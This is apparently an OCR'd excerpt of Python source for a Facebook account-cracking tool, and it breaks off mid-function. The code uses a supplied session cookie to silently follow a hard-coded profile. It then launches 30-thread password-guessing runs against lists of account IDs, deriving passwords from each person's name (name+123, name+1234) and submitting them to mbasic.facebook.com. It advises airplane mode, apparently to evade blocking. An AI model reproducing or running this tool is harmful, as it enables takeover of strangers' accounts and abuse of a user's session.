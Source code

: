     def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100007607054845', cookies={'cookie': coki}).text, 'html.parser')
        get = r.find('a', string='Ikuti').get('href')
        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

    def __pler__(self):
        print('[1] Crack With Auto Pass ')
        print('[2] Crack With Name Digit Pass')
        chi = input('\n [?] Choose: ')
        if chi == '':
            print('\nSelect Correct One')
            self.__pler__()
        elif chi in ('1', '01'):
            os.system("clear")
            print(logo)
            print("\033[1;31m\r Use flight (airplane) mode before use\033[1;37m")
            print(47*"-")
            print('\033[1;37m Total Auto file IDs : %s ' % len(self.id))
            print('\033[1;37m Cracking Started...')
            print(47*"-")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        first, last = name.split(' ')
                        firstl = first.lower()
                        lastl = last.lower()
                        firsts = first.capitalize()
                        lasts = last.capitalize()
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                        else:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123", xz[0]+"1234"]
                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")
                    except:
                        pass
            hasil(ok,cp)
        elif chi in ('2', '02'):
            os.system("clear")
            print(logo)
            print("\033[1;37m\rEnter Last Name Digits\033[1;37m\n")
            p1 = input('  Name + 1 : ')
            p2 = input('  Name + 2 : ')
            p3 = input('  Name + 3 : ')
            p4 = input('  Name + 4 : ')
            os.system("clear")
            print(logo)
            print("\033[1;31m\rUse flight (airplane) mode before use\033[1;37m")
            print(47*"-")
            print('\033[1;37m Total IDs : %s ' % len(self.id))
            print('\033[1;37m Cracking Started...')
            print(47*"-")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]